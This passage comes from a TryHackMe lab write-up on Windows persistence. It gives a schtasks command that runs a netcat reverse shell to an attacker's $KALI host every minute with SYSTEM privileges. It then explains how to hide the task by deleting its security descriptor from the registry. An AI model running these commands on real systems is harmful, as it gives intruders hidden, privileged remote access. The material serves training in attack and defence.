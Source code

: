 Let's create a task that runs a reverse shell every single minute. In a real-world scenario, you wouldn't want your payload to run so often, but we don't want to wait too long for this room:

**Victim(cmd)**

```
schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe $KALI 4449" /ru SYSTEM
```

<figure><img src="../../.gitbook/assets/image (5) (10).png" alt=""><figcaption></figcaption></figure>

Note: Be sure to use `THM-TaskBackdoor` as the name of your task, or you won't get the flag.

The previous command will create a "THM-TaskBackdoor" task and execute an `nc64` reverse shell back to the attacker. The `/sc` and `/mo` options indicate that the task should be run every single minute. The `/ru` option indicates that the task will run with SYSTEM privileges.

To check if our task was successfully created, we can use the following command.

**Victim(cmd)**

```
schtasks /query /tn thm-taskbackdoor
```

<figure><img src="../../.gitbook/assets/image (1) (3) (3).png" alt=""><figcaption></figcaption></figure>

### Making Our Task Invisible

Our task should be up and running by now, but if the compromised user tries to list its scheduled tasks, our backdoor will be noticeable. To further hide our scheduled task, we can make it invisible to any user in the system by deleting its **Security Descriptor (SD)**. The security descriptor is simply an ACL that states which users have access to the scheduled task. If your user isn't allowed to query a scheduled task, you won't be able to see it anymore, as Windows only shows you the tasks that you have permission to use. Deleting the SD is equivalent to disallowing all users' access to the scheduled task, including administrators.

The security descriptors of all scheduled tasks are stored in `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\`. You will find a registry key for every task, under which a value named "SD" contains the security descriptor. You can only erase the value if you hold SYSTEM privileges.
